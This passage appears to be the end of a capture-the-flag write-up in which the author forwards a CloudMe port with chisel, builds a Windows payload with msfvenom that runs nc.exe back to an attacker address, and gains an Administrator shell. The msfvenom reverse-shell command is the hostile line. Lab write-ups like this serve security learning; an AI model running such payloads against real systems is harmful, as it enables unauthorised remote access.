The `cloud me` running on the remote machine and i cannot access remotely furthermore the machine hasn't python so cannot execute the exploit. 

So i need to forward the port 8888 on my machine, for this i used `chisel`.
Furthermore i need to upload the payload for the exploit.

> msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.152' -b '\x00\x0A\x0D' -f python -v payload

<img src="./img/msfvenom.png"  width="650"/>

Finally run the exploit and got shell as `Administrator`

<img src="./img/exploit.png"  width="650"/>

and the flag
